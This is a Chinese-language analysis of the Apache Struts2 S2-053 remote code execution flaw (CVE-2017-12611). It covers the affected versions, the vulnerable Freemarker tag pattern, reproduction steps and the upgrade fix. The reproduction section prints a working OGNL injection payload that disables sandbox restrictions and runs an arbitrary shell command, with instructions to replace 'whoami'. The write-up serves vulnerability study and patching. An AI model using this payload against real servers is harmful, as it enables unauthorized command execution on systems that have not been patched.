






# Struts2-053漏洞分析


## 1.&emsp;漏洞描述

* 漏洞描述：当开发人员在Freemarker标签中使用错误的构造时，可能会导致远程代码执行漏洞。
* 漏洞编号：CVE-2017-12611
* 影响版本：
  * Struts 2.0.1 - 2.3.33
  * Struts 2.5 - 2.5.10
* 漏洞等级：高危

## 2. 漏洞简介

| Who should read this    | All Struts 2 developers and users        |
| ----------------------- | ---------------------------------------- |
| Impact of vulnerability | A RCE attack is possible when developer is using wrong construction in Freemarker tags |
| Maximum security rating | Moderate                                 |
| Recommendation          | Upgrade to [Struts 2.5.12](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.5.12) or [Struts 2.3.34](https://cwiki.apache.org/confluence/display/WW/Version+Notes+2.3.34) |
| Affected Software       | Struts 2.0.1 - Struts 2.3.33, Struts 2.5 - Struts 2.5.10 |
| Reporter                | Lupin <lupin1314 at gmail dot com> - [jd.com](http://jd.com/) security team |
| CVE Identifier          | CVE-2017-12611                           |

## 3.&emsp;漏洞分析

### 3.1  漏洞说明

​	2017年9月7日，Struts官方发布一个中危的安全漏洞，该漏洞编号为:S2-053,在一定条件下，当开发人员在Freemarker标签中使用错误的构造时，可能会导致远程代码执行漏洞，存在一定的安全风险。赛宁网安将对该漏洞进行持续关注，并第一时间为您更新相关漏洞信息。

### 3.2  漏洞分析

​	当在Freemarker标签中使用表达式常量或强制表达式时使用请求值可能会导致远程代码执行漏洞（见下面的示例）。

```java
<@s.hidden name="redirectUri" value=redirectUri />
<@s.hidden name="redirectUri" value="${redirectUri}" />
```

在这两种情况下，值属性都使用可写属性，都会受到Freemarker的表达式的影响。

再将默认的execute方法执行的结果集通过DefaultActionInvocation中的createResult方法传递到ftl模板里







然后接着取出了payload



最终FreeMarker模板使用assign指令调用struts.translateVariables方法去执行keyValue的栈顶元素。

## 4.&emsp;漏洞复现

1. 访问工程，看到输入框，输入值直接返回



2. 输入payload：

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm): ((#container=#context['com.opensymphony.xwork2.ActionContext.container']).
(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).
(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').
(#iswin= (@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new
java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).
(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

替换Exp中的 `(#cmd='whoami')` 中的命令即可。



成功返回命令执行信息。

## 5.&emsp;修复方案

 	升级Apache Struts到version 2.5.13
